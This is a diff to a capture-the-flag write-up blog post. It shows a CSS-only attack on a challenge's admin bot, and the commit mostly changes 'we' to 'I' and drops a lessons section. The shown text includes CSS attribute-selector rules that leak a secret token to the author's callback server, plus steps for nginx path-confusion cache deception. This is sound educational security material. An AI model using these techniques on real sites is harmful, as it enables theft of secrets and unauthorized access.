

Before and after one commit to Aeronique/aerobytes-site, a Jekyll site: the page built from _posts/2026-05-28-phantom.md, in a window 1280 px wide and 1400 px high, scrolled down 16193 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2026-05-28-phantom.md

````diff
--- a/_posts/2026-05-28-phantom.md
+++ b/_posts/2026-05-28-phantom.md
@@ -25,11 +25,11 @@ The admin bot does the standard CTF routine:
 1. Logs in as admin
 2. Waits 8 seconds
 3. Visits whatever URL you submit via `/admin/visit`
-4. Closes the page after some timeout (we never measured exactly how long)
+4. Closes the page after some timeout (I never measured exactly how long)
 
-Session cookies are `HttpOnly` and `SameSite=Lax`. So no JavaScript-based cookie theft, even if we could land XSS, and cross-site fetch behavior is limited to top-level navigations.
+Session cookies are `HttpOnly` and `SameSite=Lax`. So no JavaScript-based cookie theft, even if I could land XSS, and cross-site fetch behavior is limited to top-level navigations.
 
-So we need to either steal the admin session, or steal the token plus find another way past the admin check, or trick the admin bot into doing something useful on our behalf.
+So I need to either steal the admin session, or steal the token plus find another way past the admin check, or trick the admin bot into doing something useful on my behalf.
 
 ---
 
@@ -109,10 +109,10 @@ After running through a bunch of payloads, here's what came out:
 
 - `<script>` tags, opening and closing
 - `<svg>`, `<iframe>`, `<form>`, `<input>`, `<button>`, `<base>`, `<object>`, `<embed>`, `<math>`
-- All `on\w+=` attributes (onerror, onload, ontoggle, every variant we tried)
+- All `on\w+=` attributes (onerror, onload, ontoggle, every variant I tried)
 - `javascript:` URIs
 
-The "official" path was probably to find a `<script>` bypass and land a `<script nonce="STOLEN">` payload after grabbing the nonce via cache poisoning. We tried a few sanitizer bypasses for an hour (case variants, broken attributes, HTML entity escapes, sneaking past the `\b` word boundary) and could not find one that survived the regex.
+The "official" path was probably to find a `<script>` bypass and land a `<script nonce="STOLEN">` payload after grabbing the nonce via cache poisoning. I tried a few sanitizer bypasses for an hour (case variants, broken attributes, HTML entity escapes, sneaking past the `\b` word boundary) and could not find one that survived the regex.
 
 Since `<link>` and `<style>@import>` both survived, and CSS can read element attributes via selectors and make HTTP requests via `background:url(...)`, that's enough to build a leak channel.
 
@@ -148,9 +148,9 @@ a[href^="/admin/secrets?token=9"] {
 }
 ```
 
-only matches if there's an `<a>` element on the page whose `href` starts with `/admin/secrets?token=9`. When it matches, the browser fetches the background-image URL, which sends a request to our server. We log the request and learn the token starts with `9`.
+only matches if there's an `<a>` element on the page whose `href` starts with `/admin/secrets?token=9`. When it matches, the browser fetches the background-image URL, which sends a request to my server. I log the request and learn the token starts with `9`.
 
-To leak the second character, we send the browser a new stylesheet with rules like:
+To leak the second character, I send the browser a new stylesheet with rules like:
 
 ```css
 a[href^="/admin/secrets?token=9a"] { background: url(".../hit/1/9/a"); }
@@ -160,7 +160,7 @@ a[href^="/admin/secrets?token=9c"] { background: url(".../hit/1/9/c"); }
 
 One rule per hex digit at the new position, sixteen total per round.
 
-Different prefix, different match. Whichever rule fires tells us the next character. Then we recurse for position 2, position 3, all the way to 32.
+Different prefix, different match. Whichever rule fires tells me the next character. Then I recurse for position 2, position 3, all the way to 32.
 
 To chain the stylesheets, the cleanest mechanism is `@import`. Each sheet ends with:
 
@@ -400,7 +400,7 @@ Now apply this to `/admin/secrets;.css?token=TOKEN`:
 2. Express strips `;.css`, routes to `/admin/secrets`, checks admin session, checks token
 3. If both pass, Express returns 200 with the flag HTML
 4. nginx caches the 200 response under `/admin/secrets;.css?token=TOKEN`
-5. We fetch the same URL unauthenticated, nginx serves the cached flag
+5. I fetch the same URL unauthenticated, nginx serves the cached flag
 
 Confirmed by hitting `/admin/secrets;.css?token=abc` with no admin session:
 
@@ -417,7 +417,7 @@ Connection: keep-alive
 X-Powered-By: Express
 ```
 
-No `X-Cache-Status` header at all on that response. nginx wasn't even attempting to cache it. 403s don't get cached on this config (likely a `proxy_cache_valid 200` directive). So we need the admin's browser to be the first to hit this URL with the correct token, populating the cache with a 200. Then we can hit it ourselves.
+No `X-Cache-Status` header at all on that response. nginx wasn't even attempting to cache it. 403s don't get cached on this config (likely a `proxy_cache_valid 200` directive). So I need the admin's browser to be the first to hit this URL with the correct token, populating the cache with a 200. Then I can hit it myself.
 
 ---
 
@@ -536,31 +536,9 @@ The flag name is the challenge author's summary of the whole thing.
 
 ---
 
-## Lessons
-
-A few things worth filing away for future challenges:
-
-**CSS attribute selectors are a fully working primitive for reading attribute values from a target page.** Pepe Vila and others have published on this since around 2018. It's easy to forget the technique exists when you're stuck on a `<script>` injection problem. If you can land a `<link rel=stylesheet>` or `<style>@import>` and the CSP allows external styles and images, you have a leak channel for any attribute on any element.
-
-**`@import` chains are slower than they look.** Each leaked character costs one round trip to your callback server plus parse and recalc time in the browser. A 32-character secret takes a minimum of about 16 seconds. Bots will often close the page before the chain finishes. Persisting state on the server and resubmitting the bot is a clean workaround.
-
-**Path-confused cache poisoning has been the same pattern for years.** James Kettle wrote it up extensively at PortSwigger. If you see nginx (or any reverse proxy) caching by file extension and a backend that strips path suffixes, every authenticated endpoint becomes potentially cacheable. The pattern to look for: `app strips ;suffix or similar, cache routes on .ext`.
-
-**Test the bio sanitizer with a broad probe before assuming what's blocked.** A single payload with everything you might want to use, then read it back and diff. The actual sanitizer behavior almost never matches what you'd assume from reading the regex.
-
-**When you find one cache poisoning primitive, test all authenticated endpoints with it.** We initially used the cache trick only to grab the CSP nonce from `/dashboard;.css`. The bigger win came from realizing the same trick worked on `/admin/secrets;.css` to dump the flag page itself.
-
----
 
 ## Credits
 
 Thanks to the MetaCTF crew for the challenge. The flag name is the entire writeup compressed into one phrase: speculation rules met cache deception. The intended-versus-actual solve path was probably the script-tag-with-stolen-nonce route, but the CSS-only attack chain worked end to end and was genuinely satisfying to figure out.
 
-If you're using this writeup to learn the techniques, the components worth practicing on their own:
-
-- CSS attribute selector exfiltration: try it against a deliberately vulnerable lab page first
-- Cache deception / path confusion: PortSwigger's Web Security Academy has a free lab series on this
-- Bot-mediated XSS attacks: any DOM XSS challenge with an admin bot is good practice
-
-You've got this.
 {% endraw %}
````
Also changed, not shown: other parts of _posts/2026-05-28-phantom.md (+1 -1 lines).
